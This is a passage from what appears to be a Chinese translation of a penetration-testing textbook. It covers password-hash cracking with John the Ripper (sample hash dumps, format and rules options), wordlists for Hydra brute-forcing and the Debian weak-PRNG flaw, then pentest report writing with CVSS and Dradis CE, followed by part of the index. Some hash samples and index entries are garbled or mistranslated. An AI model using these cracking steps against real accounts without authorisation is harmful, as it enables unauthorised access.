Administrator:500:D44EC5619C72E05617306D272A9441:C9BC6781D1A4751D5D67CAE925842:
Guest:501:NO PASSWORD*********************::NO PASSWORD*********************:::
adams:1001:D57D9F4ACAEAC5B09752A3293831D1:A69A6F4DB4BC1178159BE94D43EC5:
```

```
jessep:1005:AF26CC5635ED2791D3A627C824F029F:4A3AC836B4AAA3B306E5BC4
34E22345:
pether:1002::*2212B147D83D19E88728226471BA:116D0D5E6978B0
8EE55548283478372***:
stepp:1006:NO PASSWORD**************1DF28481C07E299BD11E75BF7CE66
82BF5:
thnor:1003:F62C2A918770B3A3D43B51404EE:E5F428AA992B52FEAB203B4
02B6523:
walter:1004::443D5FC0376D6E2B9C401FC7E2FE6D90:FC36DEFF44A05F68A6450
01F8644:
```

你会看到 John 发出的关于它检测到的哈希类型的消息，你可能会注意到 John 似乎在破解某些哈希后停止了或暂停了。按下键盘上的 Enter 键会告诉 John 报告其状态，你可以按 Ctrl+C 取消尝试。使用 `show` 选项可以在完成或中断后一次性显示破解出的密码，操作如下：

```bash
john --show lanman.txt
```

John 将显示提供的密码哈希文件，但这次会在破解密码的同时显示用户名。你还会收到已破解哈希的数量以及剩余数量的数量。John 会自动记录尝试的进度，并在发生中断时从上次停止的地方继续执行。

尝试使用 `format` 选项运行。这将覆盖 John 对哈希格式的检测。对于 NTLM，你可以使用 `NT` 格式：

```bash
john --format=NT lanman.txt
```

对于 LM 哈希，使用 `LM` 格式：

```bash
john --format=LM lanman.txt
```

你可以使用 `format` 选项来允许 `show`。例如：

```
Administrator:500:NO PASSWORD**************:A87F3A337D73085C4F594
16BE57DB6:::
Guest:501:NO PASSWORD**************:NO PASSWORD********************:
andyp:1009:NO PASSWORD**************:420A8B799344C0663B6F532FB
0DB16535:::
carm:1008:NO PASSWORD**************:5AA649BB25E2F1837B54765D53
6CA0::
erbic:1010:NO PASSWORD**************:BA5E5061DE2675F3F8E
7BD0E27044063:
marko:1012:NO PASSWORD**************:1B85BB23B4638049C43DCD73DBD
52DD8:::
pedros:1007:NO PASSWORD**************:56780793B7CFC4938E8C658D0F
9A32A::
nthomas:1011:NO PASSWORD**************:1E7A9FB12E8E387A1117D4CEE2
8F6308:
```

记住，还有其他工具可以用于获取并破解哈希，例如 [ophcrack](https://ophcrack.sourceforge.net) 和 [Cain & Abel](http://www.password.org/cain.html)。

## 猜测密码

获取密码的一种方法是找到哈希并破解这些明文。不过，还有其他方法可以领先（或验证）用户的密码。一种方法是使用像 Hydra 这样的工具（你在第 6 章“电子邮件”中见过）进行暴力破解。如果你打算花时间进行这种暴力破解，你应该花时间考虑并生成自定义的密码列表。一个包含数千个密码的文件对于 Hydra 这样的工具来说可能需要很长时间，假设该工具能够在不受阻塞的情况下继续。将常用密码放在列表顶部是有意义的。人们仍然使用“123456”和“Password!”这样的弱密码（是的，如果允许的话）。你会发现一些人们汇总的常用密码列表。星期几、易记数字、键盘序列（如 `1qaz2x`）、女孩名字、男孩名字以及运动队名称都是我们多年发现的最常用密码。

在猜测密码时，你还应该考虑你的客户端和任何偏好。如果应用程序实施了如“必须包含一个大写字母、一个小写字母、一个数字和一个特殊字符”的策略，你知道。

另一种方法是使用规则攻击。规则攻击使用一组规则修改词列表中的单词，创建每个单词的许多变体。例如，规则可以在词尾添加数字、将首字母大写或将某些字符替换为符号。这对于破解遵循模式的密码非常有效。

要在 John 中使用规则攻击，使用 `--rules` 选项：

```bash
john --rules lanman.txt
```

## 随机数生成器

随机数在计算机安全方面至关重要，因为它们为哈希或加密数据增加了熵（随机性），降低了检测到模式的可能性。如果可以发现模式——例如，某些字符以某种方式被哈希或加密——就可以分析这些模式，以“破解”所使用的加密方案。暴力破解术语将这称为停止条件。这是第二次世界大战期间盟军为了破解使用纳粹恩尼玛机加密的消息（见图 14.3）所做工作的基本概念。

哈希值必须包含足够的熵以防止碰撞，并降低被反转的可能性。同样，在你的日常密码中增加熵可以使其更难被暴力破解或破解。

你经常会看到“伪随机数生成器”而不是“随机数生成器”，因为计算机本身无法产生真正的随机数。计算机的设计是为了执行一致且可预测的指令——这是它们的本质。我们希望程序每次执行的方式都相同，并且希望计算结果始终准确无误——处处 100% 准确！这里的权衡是，计算机的组件并不适用于产生随机输出，通常需要专用硬件来产生真随机数，这通常被称为硬件安全模块（HSM）。尽管如此，现代计算机非常长产生能够欺骗我们大多数人的输出，并且对于加密目的来说已经足够伪随机了。

## DEBIAN 损坏的伪随机数 (CVE-2008-0166)

2008 年，Debian 在生成伪随机数时引入了一个漏洞，这意味着输出比预期的要容易预测得多。该系统仅获取某些值并将其作为随机输出的种子。它实际上使用了运行中的计算机进程列表中的 ID (PID) 值——这些值并不难获取或猜测，并且具有有限的值。虽然种子化本身不是问题，但使用已知或可推测的值作为种子会引入问题。这意味着 SSH 密钥（以及其他类型的密钥）可以被猜到，因此利用该漏洞通过 SSH 登录远程主机是可能的！一个人生成的可能密钥数量是固定的。一旦这个秘密被泄露，动作迅速的黑客就会利用它攻入大量科学机构，直到 SSH 密钥黑名单被广泛传阅以防止此类滥用。当输出既不是随机的也不符合预期时，意味着序列是可以预测的，这可能导致毁灭性的后果。

## 总结

尽管某些哈希算法基于加密算法，但请不要将哈希与加密混淆。这两种是两种截然不同的操作。哈希取明文并应用一种单向函数，该函数的反转难度应该越困难越好。根据设计，加密需要被反转，但只能由提供正确凭据并持有秘密密钥的人来完成。

在为客户进行渗透测试时，如果有机会尝试破解密码，你会想要尽快开始，以确保不会减慢你的进度，理想情况下是使用一台可以在后台运行的机器。将密码破解留到最后不是一个好主意，因为一旦你的时间窗口过期，你可能会错过访问主机的机会。密码破解工具运行的时间越长，发现密码的机会就越大。只要时间足够长，所有事物的生存率都会变为零。

随着技术的进步以及安全哈希算法与破解方法之间的军备竞赛持续，请意识到你对客户的建议会随着时间而改变。曾经 DES、LM 哈希和 MD5 足够安全，但在今天的标准看来可笑，应该在任何应用中被避免，转而使用 SHA512 等安全替代方案。

你不总是能成功破解你发现的密码哈希，但如果你正确执行了检查，你就可以确定你的客户用户至少没有使用弱密码。你还可以确保在安全存储密码哈希方面采用了当前的最佳实践。如果你的字典攻击、自定义词汇表或彩虹表最初没有结果，请不要灰心。记住，所有良事终将垂青于暴力破解者。

# 第 15 章 编写报告

渗透测试报告是评估完成后提供的实质性结果，记录了你的发现和工作过程。渗透测试报告应该提供清晰、简洁且实用的信息，以便任何人都能从阅读中获得安全收益。

如果你正在从事漏洞赏金计划，如果有尝试破解密码的机会，你会想要尽快开始，以确保不会延慢你的项目进度，即使在测试你自己的系统时，你会发现编写报告对于深入理解整个渗透过程非常有帮助。你需要关注你发现的漏洞，精确地解释它们的含义，并就修复或缓解相关风险提供建议。最终报告是渗透的关键部分，而且往往被忽视。这是一项你必须学习的技能。除了提供技术细节外，文档还应该向非技术人员以及技术人员准确地解释你发现的漏洞、你的建议以及它们可能带来的风险。

渗透测试报告（或简称报告）是你完成测试后发布给客户的文档。编写渗透测试报告与编写安全公告不同，后者通常包含技术信息。

许多工具、框架和桌面出版软件包可以记录问题。公司和安全团队可能开发了自己的工作流管理系统，与你可能会使用的平台集成。通常，报告流程由渗透测试人员处理，并使用开发的流程生成。

在向客户发布报告时，我们将报告分成若干章节。每个章节针对不同的受众。在涉及报告写作时，我们指的是“问题”（issues）而不是“漏洞”（vulnerabilities），但一个问题通常会突出一个发现的漏洞。问题也可以是信息性的；它们可能会向客户指出不是风险但对他们有用的信息。

| 风险 |
| --- |
| 高风险问题是指发生概率很高的问题；例如一个在野外经常被利用的未修复漏洞，且具有破坏性后果，例如敏感客户数据的窃取，这可能导致违反数据保护法，从而导致政府罚款。这些罚款可能会降低公司的股价。相反，低风险问题可能是一个没有深远或直接影响的漏洞，例如一个在欢迎语中泄露软件版本的 SMTP 服务器（假设该软件是最新版本）。冗余的欢迎语不会立即引起问题，但在未来，它可能允许攻击者检查任何缺失的补丁，并在发现漏洞时利用该服务。 |

你具体如何定义你发现的漏洞风险取决于你的客户。

## 通用漏洞评分系统

对问题或漏洞进行评分的方法是通用漏洞评分系统（CVSS）。该评分系统有多个版本。在本章中，我们将参考 2019 年 6 月发布的 3.1 版本。若要开始学习该系统，我们建议你访问 `nvd.nist.gov/vuln-metrics/cvss/v3-calculator`，这是一个用于计算分数的免费在线计算器。你还会发现其他工作原理相同的计算器，如果你愿意，也没有任何事情可以阻止你实现自己的计算器。通用漏洞评分系统标准化信息收集组织（SIG）（`www.first.org/cvss`）是详细学习 CVSS 的好地方。

CVSS 允许你通过向专用计算器（实现了一种公式）输入详细信息，为任何漏洞计算出一个从 0 到 10 的分数，其中 0 表示无风险，10 表示严重风险。此分数可以向你的客户解释所发现问题的相对风险。

我们将以 SQL 注入为例，说明如何获取漏洞的基分（base score）。CVSS 基分考虑了漏洞可能如何被利用，以及它对受影响系统产生的影响。你还可以进一步计算时效分（temporal score）和环境分（environmental score）。时效分考虑了利用代码当前的可用性（例如，公众是否可以免费获得易于使用的利用程序，还是需要高级技术知识才能开发出来？）以及漏洞的补丁。环境分考虑了对组织基础设施的更广泛影响，并考虑了组织内部可能存在的任何缓解措施或防御。

要计算基分，以下是指标：

- 攻击向量（Attack vector）
- 攻击复杂度（Attack complexity）
- 所需权限（Privileges required）
- 用户交互（User interaction）
- 范围（Scope）
- 机密性影响（Confidentiality impact）
- 完整性影响（Integrity impact）
- 可用性影响（Availability impact）

### 攻击向量

攻击向量的性质可以是网络、相邻网络、本地或物理的。在公开访问的 Web 应用中发现的 SQL 注入漏洞将被标记为“网络”，这通常指的是远程可利用的漏洞。而“相邻网络”意味着该漏洞只能从内部网络上的另一主机进行利用。这意味着风险较低，因为攻击者必须首先攻破内部系统。“本地”意味着要利用该漏洞，必须首先获得对主机的访问权限。你可以将其理解为需要在目标系统上获得 shell，这可以通过先利用其他漏洞来实现。风险最低的攻击向量是“物理”的。这意味着攻击者需要对受影响的机器进行实际物理访问。如果利用该漏洞需要向主机插入 USB 驱动器，那么这就是物理攻击向量。

### 攻击复杂度


# 攻击复杂度

攻击复杂度描述了攻击者根据其控制的因素利用漏洞的难易程度。攻击复杂度可以取两个值之一：低或高。通常，公共主机上的 SQL 注入漏洞具有很低的攻击复杂度，因为如果攻击者愿意，他们可以以相同的方式多次利用该漏洞。高攻击复杂度意味着漏洞无法以简单直接的方式被利用，例如需要执行一系列步骤，或者某些随机元素阻止了攻击者持续地利用它。缓冲区溢出漏洞是高攻击复杂度的一个例子，因为它需要对内存地址空间进行分析，而该空间可能会被随机化以防止此类攻击。在这种情况下，将需要尝试法。

# 所需权限

如果利用某个漏洞需要受影响主机上的 `root` 权限——而不是以低权限用户或匿名用户的身份进行访问——那么此类漏洞的风险就会降低。然而，如果任何人（例如匿名用户）都可以执行攻击，那么风险就更大，因为不需要权限提升。该指标的选项有：无（none）、低（low）和高（high）。“无”意味着绝对没有任何权限的人都可以利用该漏洞。在我们假设的 SQL 注入漏洞中就是如此。想象一下，要利用 SQL 注入漏洞，你需要获得 Web 应用管理员用户的访问权限，但不需要主机操作系统用户的权限。在所需权限方面，这可能代表“低”或“高”。这实际上取决于管理员授予了受影响应用程序的具体什么访问权限。

# 用户交互

SQL 注入漏洞不需要用户的任何交互，因此在用户交互上可以分配为“无”。攻击者可以在不依赖或等待用户或受害者的任何输入或交互的情况下利用它。如果终端用户（可以认为是受害者）必须以某种方式进行交互才能触发漏洞，那么这些变化就属于“需要用户交互”。如果目标组织的用户必须点击链接才能让你的利用程序运行，那么显然需要用户交互。

# 范围

范围可以是“未更改”或“已更改”。如果 Web 应用中的 SQL 注入漏洞可以被用来为后端数据库主机提供操作系统访问权限，那么范围就发生了变化，因为漏洞组件导致了进一步受影响的组件——数据库主机。在 XSS 漏洞的情况下，如果除了 Web 应用本身外没有其他组件受影响，则范围可能未更改。范围是指漏洞组件是否与受影响组件相同。

# 机密性、完整性和可用性影响

机密性、完整性和可用性可以分配“无”、“低”或“高”标签。对这三者都有高影响的漏洞可能是关键的，但仅在前面的指标允许的情况下如此。

系统可以通过被成功利用的漏洞受到负面影响。首先，信息的机密性可能会丢失；例如，客户详情等敏感数据可能会泄露。

完整性关乎数据的可靠性。如果可以更改客户与 Web 应用之间传输的数据，完整性就会受到影响。

最后，可用性描述受影响的组件是否仍然可用。例如，Web 服务器是否能够提供内容，能够做到到种程度？

如果数据库中的所有表都可以映射并输出给攻击者，那么利用 SQL 注入漏洞将对机密性产生高影响。如果可以更改数据库中的某些数据，完整性将受到影响；但如果无法删除数据并阻止人们访问数据，可用性则不会受到影响。

另一方面，拒绝服务（DoS）攻击可能会让服务器离线几小时——即使在攻击停止后也是如此——但对机密性或完整性没有影响。DoS 攻击将产生高可用性影响。

结论，SQL 注入示例的攻击向量为网络，攻击复杂度为高，不需要权限也不需要用户交互。如果无法获取数据库服务器的 `root` 访问权限，则范围未更改；如果可以获得此类访问权限。如果可以对数据进行完全的读写访问，机密性、完整性和可用性都将为高。这导致 CVSS 分为 9.8 或 10，取决于范围，这代表了一个严重的安全漏洞。图 15.1 显示了输入数值后的国家漏洞数据库页面。



图 15.1: NIST NVD CVSS v3.1 计算器结果

# 第 15 章 编写报告

## 报告写作作为一项技能

你已经花费了大量时间来黑客虚拟机（VMs）并尝试各种工具，但你可能没有很关注过你发现结果的记录。这在新手或缺乏经验的渗透测试人员中很常见——换句话说，他们擅长发现和确认漏洞，却不知道如何编写报告。如果你是在为客户寻找漏洞，那么无论你在利用某个问题时展示了多高的技巧，如果你无法传达这些问题以及它们在现实世界的业务风险，你的报告将无法产生预期影响，并可能被董事会拒绝。精通编程需要人们学习如何编写代码。同样，精通渗透测试需要通过报告来学习和培养良好的沟通技巧。

报告写作与黑客攻击是完全不同的技能。与任何技能一样，你都需要练习才能变得精通。如果你已经习惯写作——例如你可能做过一些学术写作——那么你就可以利用已有的技能。

## 报告应该包含什么？

不同的网络安全公司和独立渗透测试人员对报告应包含的内容有自己的观点。尽管如此，在关键领域存在共识。我们将向你展示 Hacker House 通常在给客户的报告中包含的内容。列表中的每个部分都将被更详细地介绍：

- 执行摘要
- 技术总结
- 评估结果
- 漏洞描述
- 建议
- 支持性信息/证据
- 截图
- 工具输出
- 测试方法

## 执行摘要

如果你从未在需要做出战略决策的业务中担任过负责职位，那么报告的这一部分将很难编写。要编写执行摘要，你需要像公司高管一样思考，而不是像黑客一样。你需要考虑业务、利润率和风险。你需要将你发现的问题风险传达给具有业务意识的受众。查看以下示例陈述：

> Web 应用程序中发现了一个关键安全漏洞（SQL 注入漏洞），它允许匿名黑客获取底层主机的 `root` 权限。

这对于技术人员来说可能是有意义的，但对于公司的 CEO 来说可能意义不大。这一条呢？

> 在评估过程中发现了一个关键安全漏洞，利用该漏洞不需要多少技巧。一旦被利用，该问题将允许访问敏感信息，包括客户数据。

这更容易引起 CEO 的共鸣，因为你用清晰的术语解释了问题，并开始谈论风险。在这里没有必要点出你发现的具体漏洞名称——这可以在报告的技术部分完成。在读完这段陈述后，高管可能仍然倾向于忽视这个问题，因为风险的全面影响以及优缺点尚未进行汇总。你可以进一步阐述，并添加类似以下的内容：

> 解决此漏洞总是很直观的，而留之不可能会导致财务损失，以及品牌和声誉的损害。该漏洞已被恶意第三方充分了解，并在实地环境中被积极利用。

通过向读者提供有关你所发现的特定问题的某些事实，并结合客户的网络和组织背景，你引导他们朝着正确的方向发展，理想情况下是解决你所发现的问题。记住，他们比你更了解自己的业务，而且你的读者可能拥有足够的智慧和经验，根据你的评估结果得出正确的结论。

在传达有时难以接受的信息时，应该练习温和的说服技巧。正如当你作为客人在客户系统上工作时必须保持尊重一样，你必须努力意识到你所传达的信息可能会被读者产生不同的解释。最好的方法始终是坚持事实，以清晰简洁的方式呈现信息，避免主观臆测，并在需要为读者提供详细的技术信息，同时为可能不理解技术术语的读者提供通俗术语的总结。

你可能希望将执行摘要拆分为不同的部分。在这里使用视觉图表和图表对于显示概述和信息图是有益的。例如，你可以使用图表根据风险水平显示你发现的各种问题，并标记“高”、“中”、“低”和“信息”等标签。公司可能没有时间阅读你字斟句酌的 100 页建议和技术利用细节，包含这些细节可能会分散你报告主旨的注意力。如果你能解释漏洞如何对公司产生财务影响并损害其声誉，你确实会引起他们的注意。尝试将你的测试结果总结成一个简短的段落，以叙述的形式编写，准确说明如果你识别的任何漏洞得到解决，将会发生什么。整个执行摘要应该是简洁的；一页纸就足够了。避免用不必要的词藻增加读者的负担。

## 技术总结

你报告的技术总结将针对技术受众，但不需要过深入探讨你发现的所有问题。毕竟，这只是一个总结。报告的这一部分通常针对客户的 IT 部门主管或负责分配资源修复问题的人员。那个人会将单个问题分配给你团队的其他成员。这将让那个人对待办工作有一个概览。我们在这里用通用术语编写，但每个组织都是不同的。可能有人从头到尾读完报告并自己解决问题。相比之下，你可能有几个人在不同的地点对不同的组件进行工作。编写报告的目标是做到多面手以涵盖所有方面。你应该根据客户的需求定制你的报告，这应该在项目开始之前进行讨论。

## 评估结果

虽然报告的第一部分（执行摘要和技术总结）提供了发现的概述，但评估结果将对你发现的每个问题给出详细说明。报告的这部分针对技术受众，但你不应假设他们知道这些问题。在适用情况下，你应该使用相当基础的术语进行解释，并始终提供链接。你不会在此部分提供截图和终端输出，因为会分散读者的注意力。相反，详细的技术输出、截图和命令应该在这里被引用并添加到报告的支持信息。你发现的每个问题都应该给出一个唯一标识符——只需要从 1 开始到你发现的问题数量结束。

## 支持信息

报告的支持信息部分将持续，并将由负责修复你所提问题的人阅读。报告这部分的意图是为你所发现的问题提供具体的证据，并协助技术人员重新创建这些问题。这将赋予你的报告可信度，因为你可以证明你没有发明一堆不存在的问题，而且对于那些负责修复这些问题的人来说非常有用。支持信息将由显示 SQL 注入漏洞证据的截图以及来自终端的输出（例如你在 Metasploit 中成功运行了针对目标的程序）组成。

## 记录笔记

如果你在安全评估或渗透测试期间没有记录清晰简洁的笔记，那么几乎没有机会写出一份有价值的报告。编写最终报告时，你应该已经有了一个识别并确认的问题列表，并附有相应的证据——截图和终端输出。在工作过程中将这些笔记写入文本文件、文字处理文档或电子表格可能就足够，但也有专门为该目的设计的工具，可以帮助你管理项目。

## Dradis 社区版

Dradis 社区版（Dradis CE）是一款开源工具，旨在根据你在执行项目过程中添加的笔记和信息生成报告。你可以在 `https://www.dradisframework.com/ce` 免费下载它。

无论你计划为外部客户编写报告，还是为内部读者编写报告，你可能会发现这个工具可以帮助你保持条理。遗憾的是，它不会替你写报告，但它可以为你的执行任务节省宝贵的时间。

可以使用 Git 或通过 Dradis 网站上的说明在 Kali Linux 上安装 Dradis CE。如果你想在 Kali 上安装，需要添加存储库并下载 Dradis 包，这可以通过输入 `apt install dradis` 完成。一旦安装了包，你还需要为 Dradis 依赖添加正确版本的 Ruby bundler——输入 `gem install bundler:1.17.3`，你的 Dradis 几乎就准备就绪了。它一些额外的配置更改，你可能希望查看并编辑 `/etc/dradis` 中的文件，尽管对于测试应用程序来说并非必须。使用 `cd /usr/lib/dradis` 进入当前位置，然后输入 `rails db:migrate RAILS_ENV=dev` 重新配置 Dradis 使用的数据库以匹配默认 Kali 环境。这将迁移数据库并配置在 Kali Linux 2020.2 下启动应用程序所需的必要设置。

Dradis CE 是一个运行在本地机器上的应用程序，可以使用 `rails server` 从命令行启动。rails 可执行文件位于 `/usr/lib/dradis/bin` 目录。在 Kali 上，你只需要输入 `dradis`，按照刚才描述的步骤操作，应用程序将启动并尝试自动加载浏览器。一旦应用程序运行，即可可以通过浏览器通过 `http://127.0.0.1:3000` 访问。在首次启动时（可能需要几秒钟才有反应），你会被提示设置密码，如图 15.2 所示。

```
=> Booting Puma
=> Rails 5.1.7 starting in development
=> Run `rails server -h` for more startup options
Puma starting in single mode...
* Version 4.3.1 (ruby 2.5.7-p206), codename: Mysterious Traveller
* Min threads: 5, max threads: 5
* Environment: development
* Listening on tcp://127.0.0.1:3000
* Listening on tcp://[::1]:3000
```

同时，诊断信息（如下行所示）将输出到终端，并在你使用 Web 应用程序时继续输出——只有当你通过 rails 手动启动 Dradis 而不是通过 `dradis` 命令时才会发生。如果你使用了 `dradis` 命令，输出将存储在 `/var/log/dradis` 中的可用日志文件中。

在后续启动 Dradis CE 时，你将可以使用设置的密码和用户名登录，如图 15.3 所示。

登录后，你将看到项目摘要（Project Summary）页面，如图 15.4 所示，以及一个可以让你了解如何使用 Dradis CE 的示例项目。如果你的 Dradis 实例没有加载示例项目，你可能需要重新创建，可以使用以下命令完成：

```
cd /usr/lib/dradis
bin/rails db:setup
bin/bundle exec thor dradis:setup:welcome
bin/rails server
```

已经添加了一些有用信息来帮助你开始——点击页面左侧 Nodes（节点）下的 0.-Start Here（从这里开始）。

Dradis CE 中的 Nodes 用于在为客户工作时跟踪主机。你可以向节点添加节点和证据（例如截图）。问题也可以添加到节点中。在示例项目中，你将看到许多问题已被添加并标记为 Critical（严重）、High（高）、Medium（中）、Low（低级）或 Info（信息）。一旦你点击页面左上角的 All Issues（所有问题）链接，就可以向项目添加新问题。


图 15.3: 登录 Dradis CE


图 15.4: Dradis CE 项目摘要

在进行评估或渗透测试时，你可以在发现问题时添加新问题。Dradis CE 的设计允许你在发现问题时输入这些问题，并在测试结束时将项目导出为文档——一份适合交给客户的最终报告。

为了让你的报告尽可能易读，你希望让你的报告尽可能易读，同时解释修复已识别问题所需的所有内容。写出带有冗余词汇的长句子很容易。在编写这本书时，作者们有几种可用的协助我们的编辑们。这本书和任何其他重大出版物一样，在发布之前都经过了严格的修订。

报告的可读性非常重要，你所报告的问题其技术准确性同样重要。因此，请让其他人根据你提供的信息来验证你的发现。无论报告检查得多么细心，错误是所不可避免的。有时，客户可能是第一个发现错误的人——如果真的如此，这并不是世界末日。你可以对错误道歉，检查问题，并发布一个解决了该问题的第二个版本的报告。客户可能会向你指出某处可以降低漏洞风险的描述，或者对某个漏洞发现的影响是否与你在报告中识别的相同产生争议。在这些情况下，对所说的话进行验证并在最终发布修订文档（如果需要）之前重新检查你的工作是非常重要的。

## 交付

一个经典的例子是使用默认 ZIP 加密的 ZIP 文件，这些文件可以通过暴力破解轻易破解。同样，使用密码保护的 Microsoft Office 文件不适合作为安全传输报告的方法，取决于所使用的版本，它们也经常可以被暴力破解。理想情况下，你应该使用 PGP 加密邮件，并确保在通信安全信息时对文件附件进行加密，或者通过安全的加密文件传输门户传输你的报告。你也可以使用带有 AES-256 加密的 ZIP，这是 `7z` 和 `WinZip` 等工具提供的额外功能，尽管这可能会让可能没有此类工具的接收方感到困惑。

## 总结

如果你真的想在报告写作方面脱颖而出——而且为什么不想呢？——请给予这项重要技能它所要求的关注。练习你的写作技巧，并寻找资源帮助你提高它们。这些指导并不一定限于渗透测试报告的编写，但在写作和用文字进行有效沟通方面的帮助将会有帮助。有很多具有技术思维的人喜欢寻找安全漏洞的过程，但他们在报告写作环节上感到挣扎或简单地不喜欢。如果你是其中之一，我们的建议是将报告写作视为一种提高你自己对技术问题理解的方式。请记住，报告应该是证据驱动的、基于事实的，并避免推测和理论。你的报告应该让技术和非技术人员都能轻松理解。为此目的产生的文档应该在提供识别出的问题为何是漏洞的证据的同时，提供清晰且可操作的指导意见。与所有技能一样，熟能生巧，报告写作是你应该像学习为了黑客目的而学习的任何其他技能一样勤奋练习的技能。

# 索引

# A

- Active Directory 域控制器 (AD DC), 459, 466
- 激活阶段 (active phase), 56–67, 67
- Active Server Pages (ASP), 204
- 虚拟网络适配器 (adapters, virtual network), 44–48
- 主机地址 (AAAA), 93
- 邻网络 (adjacent network), 546
- 高级加密标准 (AES), 36, 528
- 美国研究计划网 (ARPANET), 88
- 高级 RISC 机器 (ARM 处理器), 24
- 激进模式 (aggressive mode (IKE-scan)), 265–267
- AMD-V, 25
- 美国国家标准协会 (AMSI), 359
- 匿名访问 (anonymous access), 228, 503–504
- 反恶意软件扫描接口 (AMSI), 359
- 杀病毒软件 (AV software), 462–463
- Apache, 202–203
- Apache Tomcat, 238–240
- 苹果文件系统 (APFS), 284–285
- 应用层协议 (application layer protocol), 142
- 专用集成电路 (ASICs), 538
- Apt 软件包管理器 (apt), 34
- 任意大小 (arbitrary size), 517
- Arch Linux, 28
- ASP.NET, 204, 207
- 评估定义 (assessment defined), 98


- 报告结果 (results, in reports), 551–552
- 星号 (`*`), 276, 308
- 非对称加密 (asymmetrical encryption), 232
- 异步 JavaScript 和 XML (Ajax), 193
- 攻击复杂度 (attack complexity), 546
- 攻击向量 (attack vector), 545–546
- 身份验证 (authentication about), 255–256
- 损坏的 (broken), 434–436
- HTTP, 223–225
- 多因素认证 (MFA), MySQL 数据库, 373–374
- 第二阶段 (second-stage), 275
- 双因子认证 (2FA), 85–86, 273
- 两步 (two-step), 85–86
- 权限区域 (authority, zones of), 92
- 授权 (authorization), 189

# 562 索引 = B–C

- 自动油箱水位计 (automated-tank-gauge), 84
- 可用性 (availability), 547–548
- 暴力破解 (brute-force attacks)
  - 关于 (about), 268
  - 在 Windows 中自动化 (automating in Windows), 489
  - 数据加密标准 (DES), 528
  - 定义 (defined), 999
  - 使用 Recon-ng 的主机 (hosts with Recon-ng), 100
  - 在邮局协议 (POP) 上的上的 (on on Post Office Protocol (POP)), 167
  - `brute_hosts` 模块 (brute_hosts module), 100

# B

- 备份域控制器 (BDCs), 298, 460
- 区域划分 (Bailwicked), 130
- 平衡 SQL 查询 (balancing the SQL query), 426
- 标头抓取 (banner grabbing), 152
- Bash, 226–227
- 基本输入输出系统 (BIOS), 25
- Bcrypt, 531–532
- 域名系统 (BIND), 94, 120
- 伯克利发行版 (BSD), 26–27
- 大端序 (big endian), 337
- 二进制对象 (binary objects), 356
- bind 载荷 (bind payload), 182
- BIND, 95–97, 10
- Bing, 56–57
- 比特, 192–193
- Bitlocker, 362
- BitTorrent 客户端, 30
- Black Arch Linux, 425
- Black Hat USA, 472, 473
- 蓝队 (black team), 9
- bind 注入 (bind injection), 425
- 区块链 (blockchains), 192–193, 517
- 血狗搜索 (BloodHound), 466
- 雪飞鱼加密 (Blowfish cipher), 531
- 蓝队 (blue teams), 5
- 边界参与 (board engagement), 11
- 边界密钥 (board key), 462
- 僵尸网络 (botnet), 121
- 损坏的访问控制 (broken access controls), 439–440
- 破损的身份认证 (broken authentication), 434–439
- 浏览器漏洞框架 (BeEF), 397, 445–450
- 缓冲区溢出 (buffer overflow), 172, 248, 329
- 漏洞赏金 (bug bounty programs), 20–21
- Burp Suite
  - 关于 (about), 185, 397–412
  - 识别条 (identifying entries), 418
  - 手动浏览 (manual browsing/mapping), 412–415
- Burp Suite Decoder, 441
- Burp Suite Intruder, 451
- Burp Suite Professional, 420
- 业务案例 (business case)
  - 关于 (about), 1–2
  - 破解计算机 (breaking computers), 2–3
  - 免疫系统 (immune system), 9–11
  - 紫队 (purple team), 7
  - 红队 (red teams), 5–7
  - 风险 (stakes), 4–5

# C

- 语言 (programming language), 204
- 破解服务 (CaaS cracking-as-a-service), 539
- 缓存中毒 (cache poisoning), 129–131
- 缓存嗅探 (cache snooping), 131
- Cadaver, 207, 220
- Cain & Abel, 466, 519, 537
- 别名 (CNAME), 93
- Capital One, 3
- 证书授权 (CA), 268
- CertUtil, 30
- ceil, 165, 519, 537
- 更改模式 (change mode), 286
- CHAOS 类 (CHAOS class), 112
- CHAOSNET, 111–163

# 索引 — C 563

- 命令工具 (command utility), 267
- 校验和 (checksum), 31
- 首席执行官 (CEO), 1–3
- 首席信息安全官 (CISO), 1–3
- `chmod` 命令, 286
- Chrome, 207
- Chromebook, 24
- Cisco Type 7 方法, 533–534
- Citadel, 136
- 无分类域路由 (CIDR), 表示法, 308
- 客户端崩溃 (client name servers, crashing), 128
- 云暴 (cloudbursts), 54
- Cloudflare, 197–198
- 行为准则 (Hacker House), 22
- 冲突 (collisions), 533
- 冒号 (colon), 63
- 命令注入攻击 (command injection attack), 323
- 命令注入漏洞, 226, 227
- 命令行 Web 工具, 207
- 逗号分隔值 (CSV) 文件, 356
- 通用桌面环境 (CDE), 351
- 通用网关接口 (CGI), 225–226
- 通用网络文件系统 (CIFS), 295
- 通用 Unix 打印系统 (CUPS), 341–343
- 漏洞评分系统 (CVSS), 545–548
- 漏洞报告框架 (CVE), 476
- 弱点枚举 (CEW) 资源, 436
- 复杂指令集计算机 (CISC 处理器), 24
- 计算机欺诈与滥用法 (1984), 14
- 计算机滥用法 (1990), 14, 18
- 破解计算机 (breaking computers), 2–3
- 保密性 (confidentiality), 547–548
- CONNECT 方法, 195
- 内容发现工具 (content discovery tools), 207
- 内容管理系统 (CMSs), 220
- 合同法, 14
- Cookie, 198–200
- COPACABANA, 528
- 复制方法, 211
